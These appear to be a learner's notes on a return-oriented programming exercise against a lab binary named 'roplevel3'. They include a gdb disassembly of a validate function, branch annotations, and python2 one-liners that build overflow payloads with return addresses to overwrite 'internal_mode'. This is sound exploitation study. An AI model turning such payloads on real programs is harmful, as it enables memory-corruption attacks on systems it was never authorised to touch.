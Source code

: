 pwndbg> disas validate
Dump of assembler code for function validate:
   0x0804928b <+0>:	push   ebp
   0x0804928c <+1>:	mov    ebp,esp
   0x0804928e <+3>:	push   ebx
   0x0804928f <+4>:	call   0x80490f0 <__x86.get_pc_thunk.bx>
   0x08049294 <+9>:	add    ebx,0x2244
   0x0804929a <+15>:	lea    eax,[ebx-0x13d8]
   0x080492a0 <+21>:	push   eax
   0x080492a1 <+22>:	push   DWORD PTR [ebp+0x8]
   0x080492a4 <+25>:	call   0x8049030 <strcmp@plt>
   0x080492a9 <+30>:	add    esp,0x8
   0x080492ac <+33>:	test   eax,eax
   0x080492ae <+35>:	jne    0x80492b7 <validate+44>
   0x080492b0 <+37>:	call   0x80491b6 <func>
   0x080492b5 <+42>:	jmp    0x804931b <validate+144>
   0x080492b7 <+44>:	lea    eax,[ebx-0x13ba]
   0x080492bd <+50>:	push   eax
   0x080492be <+51>:	push   DWORD PTR [ebp+0x8]
   0x080492c1 <+54>:	call   0x8049030 <strcmp@plt>
   0x080492c6 <+59>:	add    esp,0x8
   0x080492c9 <+62>:	test   eax,eax
   0x080492cb <+64>:	jne    0x80492ef <validate+100>
   0x080492cd <+66>:	mov    eax,DWORD PTR [ebx+0x34]
   0x080492d3 <+72>:	test   eax,eax
   0x080492d5 <+74>:	jne    0x80492e8 <validate+93>
   0x080492d7 <+76>:	lea    eax,[ebx-0x139c]
   0x080492dd <+82>:	push   eax
   0x080492de <+83>:	call   0x8049050 <puts@plt>
   0x080492e3 <+88>:	add    esp,0x4
   0x080492e6 <+91>:	jmp    0x804931b <validate+144>
   0x080492e8 <+93>:	call   0x80491db <func_internal>
   0x080492ed <+98>:	jmp    0x804931b <validate+144>
=> 0x080492ef <+100>:	lea    eax,[ebx-0x13b0]
   0x080492f5 <+106>:	push   eax
   0x080492f6 <+107>:	push   DWORD PTR [ebp+0x8]
   0x080492f9 <+110>:	call   0x8049030 <strcmp@plt>
   0x080492fe <+115>:	add    esp,0x8
   0x08049301 <+118>:	test   eax,eax
   0x08049303 <+120>:	jne    0x804930c <validate+129>
   0x08049305 <+122>:	push   0x0
   0x08049307 <+124>:	call   0x8049070 <exit@plt>
   0x0804930c <+129>:	lea    eax,[ebx-0x1368]
   0x08049312 <+135>:	push   eax
   0x08049313 <+136>:	call   0x8049050 <puts@plt>
   0x08049318 <+141>:	add    esp,0x4
   0x0804931b <+144>:	nop
   0x0804931c <+145>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x0804931f <+148>:	leave  
   0x08049320 <+149>:	ret    
End of assembler dump.

0x080492ae <+35>:	jne    0x80492b7 <validate+44>
checks if the number is 1, 
if it is call func then ret and jmp to validate+144 (end)
if it is not jmp to validate+44 and continue

0x080492cb <+64>:	jne    0x80492ef <validate+100> 
Checks if the number is 2,
if it is continue
if it is not jmp to 100

0x080492d5 <+74>:	jne    0x80492e8 <validate+93>
check if eax is not 0
if eax is not 0 then execute internal_func
if eax is 0 then jmp to validate+144 (end)

0x08049303 <+120>:	jne    0x804930c <validate+129>
check if number is 3
if it is 3 then continue and eventually exit
if it is not 3 then continue to validate+129 then to validate+144 (end)




python2 -c "print('ZZZZYYYY' + '\x01\x00\x00\x00' + 'VVVV' + 'BBBB' + '\x33\x93\x04\x08' + 'CCCC' + '\x21\x93\x04\x08' + '\x99\x93\x04\x08')" > /tmp/output 


(python2 -c "print('ZZZZYYYYXXXXVVVV' + 'BBBB' + '\x33\x93\x04\x08' + 'CCCC' + '\x21\x93\x04\x08' + '\x44\x93\x04\x08')" ; cat)  | ./roplevel3



https://stackoverflow.com/questions/19398216/why-is-there-a-expecting-comma-error-in-y86-code

https://stackoverflow.com/questions/9617877/assembly-jg-jnle-jl-jnge-after-cmp

https://stackoverflow.com/questions/6261392/printing-all-global-variables-local-variables

https://stackoverflow.com/questions/52024529/whats-the-difference-between-nexti-and-stepi-in-gdb

print (int) internal_mode

(python2 -c "print('ZZZZYYYYXXXX' + '\x28\xb5\x04\x08' + 'BBBB' + '\x34\x93\x04\x08' + 'AAAA' + '\x21\x93\x04\x08' + '\x45\x93\x04\x08')" ; cat) | ./roplevel3

overwrite internal_mode with BBBB

last address is address to main function